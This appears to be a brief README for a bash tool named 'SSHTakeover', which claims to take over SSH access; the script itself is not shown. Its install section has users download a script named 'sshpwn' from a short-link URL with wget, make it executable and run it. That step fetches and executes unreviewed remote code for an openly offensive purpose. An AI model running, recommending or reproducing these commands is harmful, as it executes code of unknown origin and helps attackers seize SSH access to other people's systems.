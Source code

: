 # SSHTakeover
Takeover SSH with this simple bash script.

### Install
wget https://is.gs/sshpwn
chmod +x sshpwn
./sshpwn
